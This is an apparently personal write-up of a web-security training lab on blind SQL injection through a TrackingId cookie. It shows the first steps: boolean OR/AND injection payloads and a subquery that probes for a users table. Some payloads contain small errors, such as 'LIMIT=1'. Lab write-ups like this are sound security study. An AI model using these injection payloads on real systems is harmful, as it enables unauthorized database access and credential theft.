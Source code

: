 **Instructions:**
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

**Solution:**

1. Check the parameter **TrackingId** has SQL injection vulnerability.
	- by putting the `'` after the real `TrackingId=Vfnb2EsFrcwE4KWg'`
	![](assets/Pasted%20image%2020251010222140.png)
	
2.  Check with operators OR/AND command to see the cases that welcome Message that appear
	- `TrackingId=Vfnb2EsFrcwE4KWg' OR '1'=1-- -`
	![](assets/Pasted%20image%2020251010204044.png)
	- ```
	  TrackingId=Vfnb2EsFrcwE4KWg' OR '1'=2 -- it will work 
	  TrackingId=Vfnb2EsFrcwE4KWg'AND '1'=1 -- it will work
	  TrackingId=Vfnb2EsFrcwE4KWg' AND '1'=2 -- it not work 
	  ```
	  
	- `TrackingId=Vfnb2EsFrcwE4KWg' OR '1'=2`
	- `TrackingId=Vfnb2EsFrcwE4KWg'AND '1'=1`
	- `TrackingId=Vfnb2EsFrcwE4KWg' AND '1'=2`

	![](assets/Pasted%20image%2020251010204336.png)
	
3. Check this database have the table called **users** 
	- `TrackingId=Vfnb2EsFrcwE4KWg' AND (SELECT 'a' FROM users LIMIT=1)='a`
	![](assets/Pasted%20image%2020251010205116.png)
